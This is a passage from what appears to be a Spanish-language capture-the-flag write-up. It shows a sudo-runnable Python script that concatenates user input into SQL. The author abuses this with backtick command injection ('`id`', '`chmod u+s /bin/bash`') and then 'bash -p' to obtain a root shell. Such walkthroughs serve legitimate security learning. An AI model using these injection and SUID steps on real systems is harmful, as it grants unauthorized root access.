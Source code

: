 ```bash
|    10 | Ascii Art Bash - Welcome banner preview in blog home         | 2021-09-20 18:50:08 | 2222-12-12 | To do     |
|    11 | Blog - Create login and register form                        | 2023-04-07 17:40:28 | 2023-08-21 | Done      |
|    12 | Blog - Improve the appearance of the dashboard/projects page | 2021-09-20 18:50:18 | 2222-12-12 | Doing     |
+-------+--------------------------------------------------------------+---------------------+------------+-----------+
-bash-5.0$ 
```
Si le pasamos como argumento el numero 1 nos muestra una sola fila, ya que en esta parte del codigo esta filtrando por nuestro input.
```bash
sql = "SELECT * FROM projects WHERE proid = " + arg_project_id + ";"
```
Lo ejecutamos.
```bash
-bash-5.0$ /opt/my_things/blog/update_project_status.py '1'
+-------+-----------------------------------------+---------------------+------------+-----------+
| proid | proname                                 | prodatecreated      | prodateend | prostatus |
+-------+-----------------------------------------+---------------------+------------+-----------+
|     1 | Ascii Art Python - ABCdario with colors | 2021-09-20 17:51:59 | 2021-09-20 | Done      |
+-------+-----------------------------------------+---------------------+------------+-----------+
-bash-5.0$ 
```
Si le pasamos de argumento algo que no exista en la base de datos nos da un error.
```bash
-bash-5.0$ /opt/my_things/blog/update_project_status.py 'probando'
ERROR 1054 (42S22) at line 1: Unknown column 'probando' in 'where clause'
-bash-5.0$ 
```
Para poder injectar comandos podemos hacerlo de dos formas jugando con el <span style="color:red;">$()</span> o jugando con las <span style="color:red;">``</span>.

Ahora lo ejecutamos pero como argumento le pasamos <span style="color:red;">'`id`'</span>.

```bash
-bash-5.0$ sudo /opt/my_things/blog/update_project_status.py '`id`'
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(root) gid=0(root) groups=0(root)' at line 1
-bash-5.0$ 
```
En el mensaje de error nos muestra el output del comandos id, ahora simplemente le voy a dar privilegios suid a la bash para poder lanzarme una consola como el propietario(root) temporalmente, lo ejecutamos.

```bash
-bash-5.0$ sudo /opt/my_things/blog/update_project_status.py '`chmod u+s /bin/bash`'
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1
-bash-5.0$ 
```
Ahora si vemos los privilegios de la bash es suid
```bash
-bash-5.0$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
-bash-5.0$ 
```
Ahora simplemente ejecutamos la bash y le pasamos el parametro -p que es para que haga alucion a el propietario(root).
```bash
-bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# 
```